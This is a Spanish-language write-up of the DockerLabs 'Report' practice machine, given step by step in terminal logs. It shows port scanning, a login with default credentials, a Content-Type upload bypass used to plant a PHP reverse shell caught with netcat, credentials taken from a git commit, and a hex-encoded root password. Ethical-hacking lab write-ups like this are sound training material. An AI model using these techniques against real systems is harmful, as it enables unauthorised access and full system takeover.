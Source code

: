 ```yaml
---
title: Report
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-report/report_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing web
  - rfi
  - interactive tty
  - git
  - data leaks
  - information gathering
  - web analysis
  - foothold
  - lateral movement
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/report:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/report:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 3306/open/tcp//mysql///     Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/report:-$ sudo nmap  -sCV -p22,80,3306 -vvv -oN nmap2 127.17.0.2
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 58:46:38:70:8c:d8:4a:89:93:07:b3:43:17:81:59:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK3jyO8oTx3+eTtg3uEj4vQXYl0j42cuhclLt2dyyfiFLbeW94LqNiU+Y7Ew2F93cNaw4X+HEs9XE6j6if3YDn8=
|   256 25:99:39:02:52:4b:80:3f:aa:a8:9a:d4:8e:9a:eb:10 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEm9qKfzI/z7OvQrroF3oJEDlNu9yzmddiw449QxIeeR
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://realgob.dl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   syn-ack ttl 64 MySQL 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.8-MariaDB-0ubuntu0.24.04.1
|   Thread ID: 9
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, SupportsTransactions, IgnoreSigpipes, LongColumnFlag, ODBCClient, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, Support41Auth, FoundRows, SupportsLoadDataLocal, SupportsCompression, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: hs,yD&.UC/a{hu6KTGDa
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/report:-$ echo '127.17.0.2\trealgob.dl' | sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/dockerlabs/report:-$ whatweb realgob.dl
http://realgob.dl [200 OK] Apache[2.4.58], Bootstrap[4.5.2], Country[RESERVED][ZZ], Email[contacto@gobiernoficticio.gob], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], JQuery, Script, Title[Gobierno Municipal]
```

---
## Web Analysis

Encuentro un servicio web con múltiples opciones y directorios disponibles.

![](assets/img/dockerlabs-writeup-report/report1_1.png)

```terminal
/home/kali/Documents/dockerlabs/report:-$ dirb http://realgob.dl
---- Scanning URL: http://realgob.dl/ ----
+ http://realgob.dl/admin.php (CODE:200|SIZE:1005)
==> DIRECTORY: http://realgob.dl/api/
==> DIRECTORY: http://realgob.dl/assets/
==> DIRECTORY: http://realgob.dl/database/
==> DIRECTORY: http://realgob.dl/images/
==> DIRECTORY: http://realgob.dl/includes/
+ http://realgob.dl/index.php (CODE:200|SIZE:5048)
+ http://realgob.dl/info.php (CODE:200|SIZE:76297)
+ http://realgob.dl/LICENSE (CODE:200|SIZE:0)
==> DIRECTORY: http://realgob.dl/logs/
==> DIRECTORY: http://realgob.dl/pages/
+ http://realgob.dl/server-status (CODE:200|SIZE:7309)
==> DIRECTORY: http://realgob.dl/uploads/
```

El la página `admin.php` presenta un formulario de inicio de sesión. Utilizo credenciales básicas `admin:admin123`, logrando acceder con éxito.

![](assets/img/dockerlabs-writeup-report/report1_2.png)

Una vez dentro, soy redirigido a la página `cargas.php`, que permite subir archivos directamente al servidor.

![](assets/img/dockerlabs-writeup-report/report1_3.png)

---
## Foothold

Intento subir una reverse shell utilizando el script [pentestmonkey/php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php). Sin embargo, al hacerlo, la página responde con el mensaje, "Tipo de archivo no permitido."

![](assets/img/dockerlabs-writeup-report/report1_4.png)
![](assets/img/dockerlabs-writeup-report/report1_5.png)

Para analizar la restricción, intercepto la solicitud utilizando Burp Suite. En la solicitud HTTP, identifico el encabezado `Content-Type`, cuyo valor predeterminado es `application/x-php`. Modifico este valor a `image/jpeg` y reenvío la solicitud al servidor.

![](assets/img/dockerlabs-writeup-report/report1_6.png)

Como resultado, la carga del archivo es exitosa, y el servidor confirma con el mensaje, "Archivo cargado exitosamente."

![](assets/img/dockerlabs-writeup-report/report1_7.png)

A continuación, me pongo a la escucha en el puerto previamente definido y accedo a la página `uploads.php` para ejecutar la reverse shell cargada.

```terminal
/home/kali/Documents/dockerlabs/report:-$ nc -nvlp 1234
	listening on [any] 1234 ...
```

![](assets/img/dockerlabs-writeup-report/report1_8.png)


```terminal
	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 52798

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

```terminal
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@kali:/var/www/mybb$ ^Z
zsh: suspended  nc -lnvp 1234

/home/kali/Documents/dockerlabs/report:-$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@kali:/var/www/html$ export TERM=xterm
www-data@kali:/var/www/html$ export SHELL=bash
www-data@kali:/var/www/html$ stty rows 42 columns 86

www-data@kali:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Una vez estabilizada la sesión, navego por los directorios y encuentro un proyecto en desarrollo en la ruta `/var/www/html/desarrollo`. Para revisar su historial de cambios, configuro el entorno de Git.

```terminal
www-data@kali:/var/www/html/desarrollo$ export HOME=/var/www/html/uploads
www-data@kali:/var/www/html/desarrollo$ git config --global --add safe.directory /var/www/html/desarrollo
```

Al inspeccionar los commits, identifico un commit sospechoso, "Acceso a Remote Managment".

```terminal
www-data@kali:/var/www/html/desarrollo$ git log
```

![](assets/img/dockerlabs-writeup-report/report2_1.png)

```terminal
www-data@kali:/var/www/html/desarrollo$ git show 0baff
```

![](assets/img/dockerlabs-writeup-report/report2_2.png)

En los cambios del commit, encuentro credenciales explícitas del usuario `adm`, `adm:9fR8pLt@Q2uX7dM^sW3zE5bK8nQ@7pX`.

```terminal
www-data@kali:/var/www/html/desarrollo$ su adm
Password: 9fR8pLt@Q2uX7dM^sW3zE5bK8nQ@7pX

adm@kali:~$ id
uid=1001(adm) gid=100(users) groups=100(users)
```

---
## Privilege Escalation

Inspecciono su archivo `.bashrc` en busca de información relevante o configuraciones sospechosas.

```terminal
adm@kali:~$ cat .bashrc
```

![](assets/img/dockerlabs-writeup-report/report3_1.png)

En el archivo, encuentro una cadena hexadecial definida como `MY_PASS`. Convierto esta cadena para revelar su contenido y el resultado es la contraseña del usuario `root`.

```terminal
/home/kali/Documents/dockerlabs/report:-$ echo ’64 6f 63 6b 65 72 6c 61 62 73 34 75’ | xxd -r -p
dockerlabs4u
```

```terminal
adm@kali:~$ su root
Password: dockerlabs4u

root@kali:/home/adm# id
uid=0(root) gid=0(root) groups=0(root)
```
